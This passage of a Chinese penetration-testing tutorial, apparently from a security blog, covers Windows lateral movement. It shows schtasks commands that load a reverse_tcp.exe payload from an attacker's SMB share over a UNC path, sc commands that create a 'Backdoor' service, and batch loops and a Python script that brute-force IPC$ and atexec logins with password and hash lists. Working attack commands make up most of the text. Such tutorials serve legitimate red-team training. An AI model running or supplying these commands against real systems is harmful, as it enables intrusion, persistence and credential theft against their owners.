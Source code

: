 **注意：在使用schtasks命令时，会在系统中留下日志文件C:\Windows\Tasks\SchedLgU.txt。**

### [UNC路径加载执行](https://tttang.com/archive/1890/#toc_unc)

Windows系统使用UNC路径来访问网络共享资源，格式为

`\\servername\sharename\directory\filename # servername 服务器； sharename 网络共享名字`

攻击载荷在远程主机上时，可以直接使用UNC路径代替常规的本地路径，让目标主机直接在测试人员搭建的Smb共享中加载攻击载荷并执行。这样可以省去手动上传载荷的步骤。

例如：

`schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR \\192.168.1.1\mysmb\reverse_tcp.exe /RN System /F`

### [sc（系统服务）](https://tttang.com/archive/1890/#toc_sc)

创建远程服务需要拥有**两端主机的管理员权限（要创建服务）**和IPC连接，具体操作：

1. 利用已建立的共享连接向远程主机上传攻击载荷reverse_tcp.exe
2. 利用已建立的IPC连接在远程主机上创建系统服务shell

`sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe" # binpath的等号后面需要有一个空格`

- 删除服务shell

`sc \\192.168.1.131 delete Backdoor`

### [批量利用脚本、工具进行爆破连接](https://tttang.com/archive/1890/#toc__2)

`#批量检测 IP 对应明文连接 FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator  #批量检测 IP 对应明文 回显版 FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami  #批量检测明文对应 IP 回显版 FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.1.131 whoami  # 批量检测 HASH 对应 IP 回显版 FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.1.131 whoami`

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典,用python打包成.exe可执行文件

`pip install pyinstaller pyinstaller -F fuck_neiwang_001.py import os,time ips = {  } # net user /domain users = {     'Administrator',     '7BOB',     'uf9n1x'     'webserver-2008'  } passs = {  }  for ip in ips:     for user in users:         for mima in passs:             exec = "net use \\" + ip + '\ipc$' + mima + ' /user:god\\' + user             print('--->' + exec + '<---')             os.system(exec)             time.sleep(1)`

[![img](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)

# [SMB协议利用](https://tttang.com/archive/1890/#toc_smb_1)

## [psexec](https://tttang.com/archive/1890/#toc_psexec)

psExec是微软官方提供的一个Windows远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。该工具在MSF框架中也有集成。
